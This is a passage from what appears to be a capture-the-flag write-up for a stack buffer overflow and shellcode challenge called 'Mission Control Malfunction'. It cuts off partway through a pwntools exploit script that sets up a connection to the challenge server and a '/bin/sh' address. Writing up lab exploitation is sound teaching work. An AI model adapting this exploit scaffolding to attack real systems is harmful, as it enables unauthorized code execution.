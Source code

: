 ```python
    

if __name__ == "__main__":
    main()
```


<br>
<br>




## **6. Mission Control Malfunction**
---

> This challenge deserves its own blog post, I will write it ASAP.
{: .prompt-info}

### Overview 

- **Category**: Shellcode, Stack buffer overflow
- **Difficulty**: Extreme (6/10)
- **Challenge Files**: `handoff.c`, `handoff`

### Analysis and Steps

This challenge have no difference with handoff from picoCTF 2025 in terms of techniques and binary structure.

### Solution 1 (My Solution)

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./handoff_patched")

context.binary = elf
context.terminal = ["alacritty", "-e", "sh", "-c"]
dbginit = """
b main
b vuln
b *0x4013d0
b *0x4013ac
c
"""

def conn():
    if args.REMOTE:
        r = remote("34.66.146.178", 7587)
    elif args.GDB:
        r = gdb.debug([elf.path], gdbscript=dbginit)
    else:
        r = process([elf.path])
    return r


def main():
    r = conn()

    # a readable writable address for "/bin/sh\0"
    binsh = 0x404048

    # gadget from God
```